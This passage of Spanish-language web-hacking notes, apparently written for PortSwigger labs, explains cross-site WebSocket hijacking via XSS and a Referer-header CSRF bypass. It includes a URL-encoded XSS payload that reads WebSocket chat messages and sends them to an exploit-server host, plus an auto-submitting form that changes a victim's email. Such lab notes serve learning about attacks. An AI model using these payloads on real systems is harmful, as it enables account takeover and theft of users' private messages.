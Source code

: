 URLecodeado el script anterior y utilizando un origen permitido por la web podemos llevar a cabo la explotación de un CSRF a través de XSS en un login.

```jsx
<script>
document.location = 'https://URL-VULNERABLE-XSS/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%63%36%30%30%35%30%30%34%37%66%33%30%35%35%38%32%32%36%64%34%34%37%30%30%65%63%30%30%64%63%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%65%6e%74%2e%64%61%74%61%3b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%64%33%30%30%38%35%30%34%61%66%33%30%37%65%38%32%38%62%64%33%61%61%30%31%63%30%30%30%64%64%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%27%20%2b%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=test'
</script>
```

Si queréis profundizar mas en este tipo de vulnerabilidad os recomiendo que le echéis un ojo a esta web: [https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/](https://www.blackhillsinfosec.com/cant-stop-wont-stop-hijacking-websockets/)

## Bypass referer header

Hay aplicaciones que validan esta cabecera cuando esta presente en la petición pero no realizan la validación si se omite por lo que se puede llegar a realizar un csrf omitiéndola.

Para comprobar si es vulnerable:

1. Cambiar dominio de referer y observar respuesta.
2. Eliminar cabecera y comprobar respuesta.

```jsx
<meta name="referrer" content="never">
```

```jsx
<html>
    <body>
        <form action="https://URL-VULNERABLE/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
            <meta name="referrer" content="never">
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Laboratorio [aqu](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)í.
